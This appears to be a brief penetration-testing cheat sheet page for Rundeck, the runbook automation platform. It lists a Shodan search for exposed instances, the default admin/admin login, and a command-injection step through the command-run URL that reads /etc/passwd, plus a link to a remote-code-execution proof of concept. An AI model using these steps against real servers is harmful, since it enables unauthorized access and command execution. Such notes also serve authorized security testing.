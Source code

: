 ```yaml
---
description: Rundeck by PagerDuty is the leading OSS runbook automation platform
---
```


# Rundeck



## Search

```
https://www.shodan.io/search?query=title%3A%22Rundeck%22
```

## Default Login

```
admin/admin
```

## Authentication Command Injection



```
http://{domain}/project/Identity-Runbook-Automation/command/run?filter=.&filterName=..
enter: cat /etc/passwd
```

{% embed url="https://github.com/karkis3c/bugbounty/blob/main/poc/rundeck-rce.md" %}
